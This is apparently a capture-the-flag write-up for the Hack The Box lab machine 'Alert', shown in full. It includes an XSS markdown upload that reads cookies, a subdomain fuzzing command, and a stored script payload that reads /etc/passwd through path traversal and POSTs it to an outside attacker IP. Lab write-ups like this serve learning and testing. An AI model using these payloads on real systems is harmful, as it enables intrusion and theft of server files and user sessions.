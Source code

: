 ```http
POST /visualizer.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=alert
Content-Type: multipart/form-data; boundary=---------------------------34389943702930998061652516639
Content-Length: 257
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------34389943702930998061652516639
Content-Disposition: form-data; name="file"; filename="x.md"
Content-Type: text/markdown

[x](javascript:prompt(document.cookie))

-----------------------------34389943702930998061652516639--
```

```console
$ ffuf -w ~/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://alert.htb -H 'Host: FUZZ.alert.htb' -ac
...
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 96ms]
```

But it's behind Basic HTTP authentication. I brute-forced using Burp and `top-usernames-shortlist.txt` + `xato-net-10-million-passwords-1000.txt`, but no luck.

The "Contact Us" form allows sending a link which gets clicked by the administrator. This can be used in conjunction with the above XSS vulnerability to exfil data via LFI:

This `POST` request:

```http
POST /visualizer.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=alert
Content-Type: multipart/form-data; boundary=---------------------------34389943702930998061652516639
Content-Length: 449
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------34389943702930998061652516639
Content-Disposition: form-data; name="file"; filename="x.md"
Content-Type: text/markdown

<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.4:443", {
      method: "POST",
      body: data
  }));
```